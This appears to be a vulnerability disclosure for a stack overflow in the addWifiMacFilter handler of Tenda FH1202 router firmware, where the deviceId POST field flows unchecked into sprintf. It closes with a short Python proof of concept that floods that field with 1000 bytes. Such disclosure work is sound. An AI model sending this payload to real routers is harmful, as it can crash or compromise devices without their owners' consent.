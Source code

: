 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v5` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v5` can trigger this security vulnerability.

![image-20240319224809289](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224809289.png)

![image-20240319224750955](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224750955.png)

![image-20240319224759788](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224759788.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": 1, "deviceId":payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319224841939](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224841939.png)